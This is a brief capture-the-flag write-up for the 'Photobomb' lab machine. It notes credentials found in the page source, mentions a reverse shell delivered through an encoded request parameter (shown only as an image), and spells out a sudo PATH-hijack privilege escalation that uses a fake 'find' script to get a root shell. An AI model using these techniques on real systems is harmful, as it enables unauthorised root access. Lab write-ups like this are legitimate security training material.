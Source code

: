 # Photobomb

After Nmap (22,80), edit the /etc/hosts file and inspect the web application.

<figure><img src="../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

Inspecting the code of `photobomb.htb`, there is this line: `http://pH0t0:b0Mb!@photobomb.htb/printer`

It logs in automatically.

Inspect the POST with burp to download a PNG photo and find diferrent parameteres, so lets use an encoded URL with the parameter to obtain a reverse shell:

<figure><img src="../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

#### Analyze the sudo permissions

`sudo -l`

<figure><img src="../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

We open the script and see that find is using the relative path, not the absolute. So lets crate a find command as bash and execute it as root

```bash
echo bash > find
chmod +x find
sudo PATH=$PWD:$PATH /opt/cleanup.sh # This add the pwd to the variable $PATH 
id

```

